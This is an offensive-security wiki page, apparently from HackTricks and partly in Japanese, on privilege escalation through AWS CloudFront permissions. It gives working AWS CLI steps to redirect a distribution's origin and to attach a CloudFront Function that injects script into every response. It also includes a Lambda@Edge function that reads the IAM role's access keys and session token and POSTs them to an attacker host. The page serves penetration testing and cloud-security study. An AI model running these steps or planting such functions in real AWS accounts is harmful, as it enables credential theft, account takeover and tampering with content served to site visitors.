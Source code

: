 # AWS - CloudFront Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## CloudFront

### `cloudfront:UpdateDistribution` & `cloudfront:GetDistributionConfig`

cloudfront:UpdateDistribution と cloudfront:GetDistributionConfig の権限を持つ攻撃者は、CloudFront distribution の設定を変更できます。攻撃者はターゲットの S3 バケット自体の権限を必要としませんが、そのバケットが cloudfront.amazonaws.com サービスプリンシパルからのアクセスを許可する寛容なポリシーを持っていると攻撃は容易になります。

攻撃者は distribution の origin 設定を別の S3 バケットや攻撃者が管理するサーバーを指すように変更します。まず現在の distribution 設定を取得します:
```bash
aws cloudfront get-distribution-config --id <distribution-id> | jq '.DistributionConfig' > current-config.json
```
次に、current-config.json を編集して origin を新しいリソース — 例えば別の S3 バケット — を指すようにします:
```bash
...
"Origins": {
"Quantity": 1,
"Items": [
{
"Id": "<origin-id>",
"DomainName": "<new-bucket>.s3.us-east-1.amazonaws.com",
"OriginPath": "",
"CustomHeaders": {
"Quantity": 0
},
"S3OriginConfig": {
"OriginAccessIdentity": "",
"OriginReadTimeout": 30
},
"ConnectionAttempts": 3,
"ConnectionTimeout": 10,
"OriginShield": {
"Enabled": false
},
"OriginAccessControlId": "E30N32Y4IBZ971"
}
]
},
...
```
最後に、変更した設定を適用してください（更新する際は現在の ETag を指定する必要があります）：
```bash
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution \
--id <distribution-id> \
--distribution-config file://current-config.json \
--if-match $CURRENT_ETAG
```

### `cloudfront:UpdateFunction`, `cloudfront:PublishFunction`, `cloudfront:GetFunction`, `cloudfront:CreateFunction` and `cloudfront:AssociateFunction`
An attacker needs the permissions cloudfront:UpdateFunction, cloudfront:PublishFunction, cloudfront:GetFunction, cloudfront:CreateFunction and cloudfront:AssociateFunction to manipulate or create CloudFront functions.

The attacker creates a malicious CloudFront Function that injects JavaScript into HTML responses:

```bash
function handler(event) {
var request = event.request;
var response = event.response;
// Create a new body with malicious JavaScript
var maliciousBody = `
<!DOCTYPE html>
<html>
<head>
<title>Compromised Page</title>
</head>
<body>
<h1>Original Content</h1>
<p>This page has been modified by CloudFront Functions</p>
<script>
// Malicious JavaScript
alert('CloudFront Function Code Injection Successful!');
</script>
</body>
</html>
`;
// Replace the body entirely
response.body = { encoding: "text", data: maliciousBody };
// Update headers
response.headers["content-type"] = { value: "text/html; charset=utf-8" };
response.headers["content-length"] = {
value: maliciousBody.length.toString(),
};
response.headers["x-cloudfront-function"] = { value: "malicious-injection" };
return response;
}
```

Commands to create, publish and attach the function:

```bash
# CloudFront に malicious function を作成
aws cloudfront create-function --name malicious-function --function-config '{
"Comment": "Malicious CloudFront Function for Code Injection",
"Runtime": "cloudfront-js-1.0"
}' --function-code fileb://malicious-function.js

# DEVELOPMENT ステージの関数の ETag を取得
aws cloudfront describe-function --name malicious-function --stage DEVELOPMENT --query 'ETag' --output text

# 関数を LIVE ステージに公開する
aws cloudfront publish-function --name malicious-function --if-match <etag>
```

Add the function to the distribution configuration (FunctionAssociations):

```bash
"FunctionAssociations": {
"Quantity": 1,
"Items": [
{
"FunctionARN": "arn:aws:cloudfront::<account-id>:function/malicious-function",
"EventType": "viewer-response"
}
]
}
```

Finally update the distribution configuration (remember to supply the current ETag):

```bash
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution --id <distribution-id> --distribution-config file://current-config.json --if-match $CURRENT_ETAG
```

### `lambda:CreateFunction`, `lambda:UpdateFunctionCode`, `lambda:PublishVersion`, `iam:PassRole` & `cloudfront:UpdateDistribution`

An attacker needs the lambda:CreateFunction, lambda:UpdateFunctionCode, lambda:PublishVersion, iam:PassRole and cloudfront:UpdateDistribution permissions to create and associate malicious Lambda@Edge functions. A role that can be assumed by the lambda.amazonaws.com and edgelambda.amazonaws.com service principals is also required.

The attacker creates a malicious Lambda@Edge function that steals the IAM role credentials:

```bash
// malicious-lambda-edge.js
exports.handler = async (event) => {
// Obtain role credentials
const credentials = {
accessKeyId: process.env.AWS_ACCESS_KEY_ID,
secretAccessKey: process.env.AWS_SECRET_ACCESS_KEY,
sessionToken: process.env.AWS_SESSION_TOKEN,
};
// Send credentials to attacker's server
try {
await fetch("https://<attacker-ip>/steal-credentials", {
method: "POST",
headers: { "Content-Type": "application/json" },
body: JSON.stringify(credentials)
});
} catch (error) {
console.error("Error sending credentials:", error);
}
if (event.Records && event.Records[0] && event.Records[0].cf) {
// Modify response headers
const response = event.Records[0].cf.response;
response.headers["x-credential-theft"] = [
{
key: "X-Credential-Theft",
value: "Successful",
},
];
return response;
}
return {
statusCode: 200,
body: JSON.stringify({ message: "Credentials stolen" })
};
};
```

```bash
# Lambda@Edge 関数をパッケージ化する
zip malicious-lambda-edge.zip malicious-lambda-edge.js

# 特権ロールで Lambda@Edge 関数を作成する
aws lambda create-function \
--function-name malicious-lambda-edge \
--runtime nodejs18.x \
--role <privileged-role-arn> \
--handler malicious-lambda-edge.handler \
--zip-file fileb://malicious-lambda-edge.zip \
--region <region>

# 関数のバージョンを公開する
aws lambda publish-version --function-name malicious-lambda-edge --region <region>
```

Then the attacker updates the CloudFront distribution configuration to reference the published Lambda@Edge version:

```bash
"LambdaFunctionAssociations": {
"Quantity": 1,
"Items": [
{
"LambdaFunctionARN": "arn:aws:lambda:us-east-1:<account-id>:function:malicious-lambda-edge:1",
"EventType": "viewer-response",
"IncludeBody": false
}
]
}
```

```bash
# 更新した distribution config を適用する（現在の ETag を使用する必要があります）
CURRENT_ETAG=$(aws cloudfront get-distribution-config --id <distribution-id> --query 'ETag' --output text)

aws cloudfront update-distribution \
--id <distribution-id> \
--distribution-config file://current-config.json \
--if-match $CURRENT_ETAG

# distribution にリクエストして function をトリガーする
curl -v https://<distribution-domain>.cloudfront.net/
```

{{#include ../../../../banners/hacktricks-training.md}}
